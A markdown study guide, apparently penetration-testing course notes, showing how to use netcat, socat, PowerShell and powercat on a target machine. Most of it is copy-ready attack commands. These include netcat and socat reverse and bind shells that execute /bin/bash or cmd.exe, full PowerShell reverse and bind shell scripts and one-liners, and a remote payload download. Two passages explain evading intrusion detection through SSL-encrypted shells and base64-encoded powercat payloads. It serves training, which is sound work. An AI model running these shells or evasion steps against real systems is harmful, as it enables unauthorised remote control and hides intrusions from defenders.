


# PRACTICAL TOOLS
+ Modern security professional uses various tools but there may be limited ones in target system after gaining access
+ So we learn how to deliver our tools to target machine and so on...

# 1 - NETCAT
+ one of original tools for penetration testers
+ It reads and writes data through network using TCP/UDP protocols

## 1.1 - CONNECTING TO A TCP/UDP PORT
+ netcat can run in client/server mode
+ We can connect to remote server using IP/PORT of the server

```bash
# Connect to server assigned <DESTINATION IP> with port <PORT>
nc -n -v <DESTINATION IP> <PORT>
# -n prevents name resolution and -v is verbose mode
```

## 1.2 - LISTENING ON A TCP/UDP PORT
+ Usefull for recieving in network connections
+ Making a chat server using netcat

```bash
# server for listening
nc -lvnp <PORT>
# -l is listening mode
# -v is verbose mode
# -n is no name resolution mode
# -p is specified port

# client
nc <IP ADDRESS> <PORT>

# After connecting enter text to chat
```


## 1.3 - LISTENING ON A TCP/UDP PORT
+ We can transfer files using netcat like server/client chat example with some minor differences
+ We should guess when the transfer is done based on file size
+ We can confirm that the file is transfered successfully by calculating sha256 hash

```bash
# Server which recieves the file
nc -lvnp <PORT> > /path/to/file

# Client which sends the file
nc <IP ADDRESS> <PORT> < /path/to/file
```

## 1.4 - REMOTE ADMINISTRATION WITH NETCAT
+ netcat has command redirection
+ It can redirect input/output of an executable to a TCP/UDP port



Bob is running Windows and Alice is running Linux\
In first scenario Alice wants to connect to Bob's machine and do stuff

**netcat bind shell scenario**
+ Bob starts netcat as server and bind `cmd.exe` to port 4444
+ netcat bind `cmd.exe` to port 4444 and redirect input/output/error of `cmd.exe` to port 4444
+ So anyone connecting to Bob's IP address on port 4444 wil be prompted `cmd.exe` and his WIndows comand prompt shell

```bash
# Bob's Windows machine as a server
nc -lvnp 4444 -e cmd.exe

# Alice's Linux machine as a client
nc -nv <Bob IP> 4444
# this will result Bob's computer cmd.exe
```



In second scenario Bob wants to connect to Alice's computer and do stuff
**netcat reverse shell scenario**
+ First Bob starts netcat on port 4444 on his Windows machine
+ Alice can send reverse shell from her Linux machine to Bob

```bash
# Bob's Windows machine as a server
nc -lvnp 4444

# Alice's Linux machine as a client
nc -nv <Bob IP> 4444 -e /bin/bash
# this will result reverse shell from Alice's computer to Bob on port 4444
```

+ Take some time to read about **bind**/**reverse** shell scenario

# 2 - SOCAT
+ Establish two bidirectional byte streams to transfer data
+ similar to netcat but has additional features
+ We can estanlish connection and connect to remote host like this: 

```bash
socat - TCP:10.11.0.22:110
# - indicates transfer data between stdin and remote host
# TCP is the transfer protocol
# 10.11.0.22 is the remote host IP address
# 110 is the remote port number
```

+ We can start listening and fire up a server like this:

```bash
socat TCP4-LISTEN:10001 STDOUT
# TCP4-LISTEN is the transfer protocol in listen mode
# 10001 is listening port number
# STDOUT is for redirecting stdout for bidirectional chat
```

## 2.1 - SOCAT FILE TRANSFERS
+ Let's assume Alice wants to transfer a file named `secrets.txt` to Bob using socat
+ Alice  should be server and Bob should be client

```bash
# Server-side for transfering file by Alice
# fork indicates creating a child process
# file indicates reading input from file secrets.txt 
socat TCP4-LISTEN:10001,fork file:secrets.txt 

# Client-side for receiving file by Bob
socat TCP4:10.11.0.4:10001 file:receeved_secrets.txt,create
# create indicates creating and redirecting output to the file receeved_secrets.txt
```


## 2.2 - SOCAT REVERSE SHELLS
+ Bob will start the listener on port 10001 and Alice will connect to it and gives him a reverse shell

```bash
# Bob's side as listener
# -d -d is to increase verbosity
socat -d -d TCP4-LISTEN:10001 STDOUT


# Alice's side
# EXEC option like -e option in netcat
socat TCP4:10.11.0.22:10001 EXEC:/bin/bash
```


## 2.3 - SOCAT ENCRYPTED BIND SHELLS
+ We will use Encryption to hide shell activities and hide it from intrusion detection systems (IDS)
+ We will use Secure Sockets Layer protocol (SSL) to encrypt out shell
+ We will first generate a self-signed SSL certificate by using `openssl` command

```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
# -req and -x509 create self-signed certificate
# -newkey will generate new private key
# rsa:2048 will use RSA encryption with 2048 bit key length
# -nodes will store the private key unencrypted
# -keyout file.key will save the key to a file
# -days indicates validity period in days
# -out will save the certificate to a file
```

+ After creating the certificate we will convert them to a format that socat can accept

```bash
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

+ Now Let's create the encrypted socat listener at Alice's side

```bash
sudo socat OPENSSL_LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
# OPENSSL_LISTEN:443 option creates SSL listener on port 443
# cert option specify our certificate file
# verfiy=0 disable SSL verifications
# fork spawns a child process when a connection made to the listener
# EXEC will execute /bin/basha and redirect its output to remote host
```

+ Now Let's connect to Alice's bind shell from Bob's side

```bash
socat - OPENSSL:10.11.0.4:443,verify=0
# - indicates transfer data between stdin and remote host
# OPENSSL establishes remote SSL connection to Alice's listener 
# verify=0 disable SSL certificate verification
```

# 3 - POWERSHELL AND POWERCAT
+ Windows Powershell is a task-based command-line shell and scripting language
+ Powershell is administrative and powerful tool for penetration testing
+ Powershell have different pollicies for executing powershell scripts (the default is restricted)
+ To change the policy for this module we need to launch powershell as administrator and run this command

```powershell
Set-ExecutionPolicy Unrestricted
# Press Y
```

+ We can verify Execution policy changed with this command

```powershell
Get-ExecutionPolicy
```

+ Powershell id powerful and responsive without needing to install extra tools on it.

## 3.1 - POWERSHELL FILE TRANSFERS
+ Here we will transfer windows version of wget from Alice to Bob using powershell
+ On Bob's side we will execute this powershell command

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe', 'C:\Users\username\Desktop\wget.exe')"
# -c indicates the command being executed by powershell 
# new-object is for instantiating a .NET framework or a COM object
# Here it is a web-client class which is defined and implemented ins system .NET namespace
# downloadFile is the public method od web-client object 
# It has two arguments first one is the url and the second one is the output path to write to file
```

## 3.2 -  POWERSHELL REVERSE SHELLS
+ In this section we will leverage powershell's one-liner to execute shells beginning with a reverse shell
+ First setup a netcat listener on Alice's Linux machine

```bash
nc -lvnp 10001
```

+ Next we will execute this powershell script on Bob's Windows machine
+ It includes several powershell commands separated by semicolons `;`

```powershell
# Assign IP address and port to client socket variable
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4', 10001);

# stream variable Get network stream class to facilitate sending and receiving data
$stream = $client.GetStream();

# bytes variable as our buffer
[byte[]]$bytes = 0..65535|%{0};

# while loop for several lines for reading and writing data from network streams
while (($i = $stream.Read($bytes, 0, $bytes.length)) -ne 0){
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
	
	# iex runs any command given as input
	$sendback = (iex $data 2>&1 | Out-String);
	$sendback2 = sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	
	# Writes output of iex into data stream through network connection
	$stream.Write($sendbyte, 0, $sendbyte.Length);
	$stream.Flush();
}

# Close client connections
$client.Close();
```

+ We can use these command in one-liner poweshell command

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4', 10001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while (($i = $stream.Read($bytes, 0, $bytes.length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length);$stream.Flush();}$client.Close();"
```
+ No need to memorize this command, we can copy and paste this
+ By replacing IP and port number we can reuese this powershell reverse shell command

## 3.3 - POWERSHELL BIND SHELLS
+ The process of getting shell i previous scenario is reversed when dealing with bind shells
+ We first create the bind shell with `powershell` in Bob's Windows machine and the connects to it with `netcat` from Alice's Linux machine
+ We will execute this powershell code in Bob's windows machine to create a bind shell

```powershell
# Start a socket TCP listener using System.Net.Sockets.TcpListener class
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0', 443);

$listener.start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.length)) -ne 0){
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);

	# iex runs any command given as input
	$sendback = (iex $data 2>&1 | Out-String);
	$sendback2 = sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	
	# Writes output of iex into data stream through network connection
	$stream.Write($sendbyte, 0, $sendbyte.Length);
	$stream.Flush();
}

$client.Close();
$client.Stop();
```

+ We sill execute above script as a one-liner powershell command like this on Bob's Windows machine:

```powershell
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0', 443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length);$stream.Flush();}$client.Close();$client.Stop();"
```

+ Then we will connect to it with netcat from Alice's Linux machine like this:

```bash
nc -nv 10.11.0.22 443
```

+ Due to Administrative capabalities of powershell, Knowing how to use it in penetration test is extremenly important


## 3.4 - POWERCAT
+ It is powershell version of `netcat` and simplifies creation of bind and reverse shells
+ After downloading powercat, we will import it in our current powershell session with `dot sourcing` to load the `powercat.ps1` script
+ Scripts loading in this way is only available in current session and it needs reloading in each powershell instance

```powershell
# See help
powercat -h
```

## 3.5 - POWERCAT FILE TRANSFERS
+ First run an `netcat` listener on Alice's Linux machine

```bash
nc -lvnp 10001 > receiving_file
```

+ Next we will invoke `powercat` on Bob's Windows machine

```powershell
powercat -c 10.11.0.4 -p 10001 -i C:\Users\username\Desktop\filename
# -c specifies client mode
# -p is port number
# -i indicates local file to be transfered
```

## 3.6 - POWERCAT REVERSE SHELLS
+ The reverse shell process is similar to previous scenarios
+ First fire up a `netcat` listener on Alice's Linux machine

```bash
nc -lvnp 10001
```

+ Next Bob's will runs `powercat`  in his Windows machine to send reverse shell 

```powershell
powercat -c 10.11.0.4 -p 10001 -e cmd.exe
# -e indicates to execute the argument <cmd.exe> for example
```

## 3.7 - POWERCAT BIND SHELLS
+ We can use to create bind shell on Bob's computer
+ First We will create a bind shell on Bob's Windows machine using `powercat` command:

```powershell
powercat -l -p 10001 -e cmd.exe
# -l is for listening mode
# -p is port number
# -e executes cmd.exe
```

+ Then we will connect to Bob's bind shell from Alice's Linux machine using `netcat` command

```bash
nc -nv 10.11.0.22 10001
```

## 3.8 - POWERCAT STAND-ALONE PAYLOADS
+ powercat can also generates stand-alone payloads
+ It can generate powershell based payloads for connecting to remote host, Let's explore it
+ We begin by starting a `netcat` listener on Alice's Linux machine

Generate a reverse shell by adding a `-g` to previous powecat commands:
```powershell
powercat -c 10.11.0.4 -p 10001 -e cmd.exe -g > reverseshell.ps1
```

This can be easily detected by IDS, We can overcome this issue by using Base64 encoding\
To generate stand-alone base64 encoded payload we use `-ge` options
```powershell
powercat -c 10.11.0.4 -p 10001 -e cmd.exe -ge > encodedreverseshell.ps1
```

We can not run `encodedreverseshell.ps1` directly because it is a base64 encoded command\
To run it we should run it with powershell command and `-E` oprtion which is for encoded commands
```powershell
powershell -E "Content of encodedreverseshell.ps1"
```